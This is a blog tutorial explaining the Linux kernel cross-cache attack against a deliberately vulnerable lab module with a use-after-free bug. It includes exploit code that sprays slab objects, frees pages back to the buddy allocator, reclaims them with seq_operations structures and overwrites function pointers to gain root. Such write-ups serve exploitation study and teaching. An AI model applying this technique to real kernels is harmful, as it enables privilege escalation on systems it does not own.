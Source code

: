 ```yaml
---
title: Linux Kernel Exploitation - Cross-Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain cross-cache attack, a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}
```
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
The cache is created in `module_initialize`:
```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `struct seq_operations` or `struct tty_struct`, to overwrite function pointers and control RIP. However, we cannot simply do this, since the objects are allocated from a dedicated cache. This is where cross-cache attack comes in.

## Cross-Cache Attack
The main idea of cross-cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you may know, kernel objects are allocated from slab caches, which consist of one or more slabs. Each slab is made up of `2^order` pages and contains `objs_per_slab` objects. These values can be found in /sys/kernel/slab/\<CACHE_NAME\>.

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the fllowing aditional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. It lets us ideally overlap victim objects with any kernel object.

## Exploitation
First, we allocate `objs_per_slab * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu partial slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_sprary = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_sprary; i++) {
    obj_alloc(i);
}
```
Next, we allocate one object to create a new active slab:
```c
obj_alloc(num_sprary);
```
Next, we free the objects in the slabs obtained in the first step to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later:
```c
for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Next, we allocate a large number of `struct seq_operations` and make the order-0 pages freed in the previous step be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success:
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `struct seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, we can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, we can achive root privileges and see the flag:

![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1